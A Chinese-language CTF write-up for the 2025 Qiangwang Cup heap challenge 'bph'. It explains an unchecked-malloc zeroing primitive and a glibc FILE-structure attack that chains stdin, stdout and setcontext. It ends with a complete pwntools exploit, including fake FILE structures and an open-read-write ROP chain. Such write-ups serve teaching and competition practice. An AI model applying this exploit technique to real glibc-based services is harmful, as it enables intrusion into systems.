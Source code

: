 ```yaml
---
title: 2025qwb_bph
date: 2025-10-22 16:47:03
categories: 2025-qwb
tags: houseof
---
```


> 最近真的很少打CTF，被暴打的没啥信心了，而且很多题逆向太多了，懒得看

# 漏洞点

漏洞出现在申请堆块时没有检查malloc是否成功，而malloc失败固定返回0
这里填size的时候可以填写任意地址，就可以得到`0 + 任意地址 - `置零

![set_zero](./2025qwb-bph/set_zero.png)

还有通过前面的read函数可以配合printf泄漏libc地址或者是其他地址
这里决定打libc，所以拿libc地址

# 利用手法

这里的置零要给`_IO_2_1_stdin_->file->_IO_buf_base`用
这样可以在fgets得到一个向`_IO_2_1_stdin_`写的机会
因为fgets中有一个`read(fp, fp->_IO_buf_base, fp->_IO_buf_end - fp->_IO_buf_base);`

![fgets_read](./2025qwb-bph/fgets_read.png)

然后再重复就可以完全控制_IO_buf_base，将其指向`_IO_2_1_stdout_`，打IO
所以我们就可以获得一个可控rdi的任意地址跳转(这部分属于传统apple2)

由于高版本的`setcontext`变成了使用rdx，我们需要一个将控制rdi转换为rdx的办法
这里可以走`_IO_switch_to_wget_mode`来将控制rdx，原因不仅是这个函数可以帮我们用rdi控rdx
更重要的原因是它间接属于`_IO_wfile_jumps`的跳表中(它被`IO_wfile_seekoff`调用)

另外`_IO_wfile_seekoff`中还对第四个参数`mode`进行检查，要求`mode`不为零才可以

以及可以看到需要满足
`fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base || _IO_in_put_mode (fp)`
才可以执行到_IO_switch_to_wget_mode，这里我没有特意调整也满足了，不过可以留意一下

![IO_wfile_seekoff](./2025qwb-bph/IO_wfile_seekoff.png)

最终实现ORW读flag

# exp
```python
from pwn import *
from filep import Filep

context.log_level = 'debug'
context.arch = 'amd64'
libc = ELF('./libc.so.6')

io = remote('0.0.0.0', 70)

io.sendafter(b'token: ', b'a' * 0x28)
io.recvuntil(b'a' * 0x28)
libc.address = u64(io.recv(0x6).ljust(0x8, b'\x00')) - 0xADDAE
print(hex(libc.address))

stdin = Filep(libc.address + 0x2038E0)
stdout = Filep(libc.address + 0x2045C0)
stderr = Filep(libc.address + 0x2044E0)

io.sendlineafter(b'Choice', b'1')
pause()
io.sendlineafter(b'Size', (str(stdin._IO_buf_base['address'] + 1)).encode())
pause()
io.sendafter(b'Content', b'a')

# stderr is for rop
# stdout is for IO_hack
pause()
io.send(p64(stderr.address - 2) * 4 + p64(stdout.address + 0xE8))
pause()
io.sendlineafter(b'Choice', b'')
# 在这里非常的奇怪，我必须把回车和上面的输出分开，否则fgets会遇到奇怪的bug然后卡死

setcontext = libc.address + 0x4A99D
io_wfile_jumps = libc.address + 0x202228
io_switch_to_wget_mode = libc.address + 0x8AFC0

rax = libc.address + 0xdd237
rdi = libc.address + 0x10F78B
rsi = libc.address + 0x110A7D
rcx = libc.address + 0xA877E
rdx = libc.address + 0xB503C
syscall = libc.address + 0x98FB6

fake_stderr = flat(
    {
        0x18 - 0x10: 0x0,
        0x20 - 0x10: p64(stderr.address - 0x10),
        0x88 - 0x10: p64(0x200),
        0xA0 - 0x10: p64(stdout.address + 0x50),
        0xA8 - 0x10: p64(rdi),
        0xE0 - 0x10: p64(stdout.address),
    },
    filler=b'\x00',
    length=0xE0,
)

fake_stdout = flat(
    {
        0x0: 0xDEADBEEF,
        0x18: p64(setcontext),
        0x20: b'flag' + b'\x00' * 4,
        0x50: p64(0x0),
        0x58: p64(rsi),
        0x60: p64(stdout.address + 0x70),
        0x68: p64(syscall),
        stdout._wide_data['offset']: p64(stderr.address - 0x10),
        stdout.vtable['offset']: p64(io_wfile_jumps + 0x10),
    },
    filler=b'\x00',
)

pause()
io.sendlineafter(b'Choice', b'2')
io.sendlineafter(b'Index: ', b'1\n' + fake_stderr + fake_stdout)

flag_addr = stdout.address + 0x20

pause()
rop = flat(
    rdi,
    -100,
    rsi,
    flag_addr,
    rdx,
    0x0,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x101,
    rcx,
    0x0,
    syscall,

    rdi,
    0x3,
    rsi,
    flag_addr,
    rdx,
    0x100,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x0,
    syscall,

    rdi,
    0x1,
    rsi,
    flag_addr,
    rdx,
    0x100,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x1,
    syscall,
)
io.send(rop)

io.interactive()

```






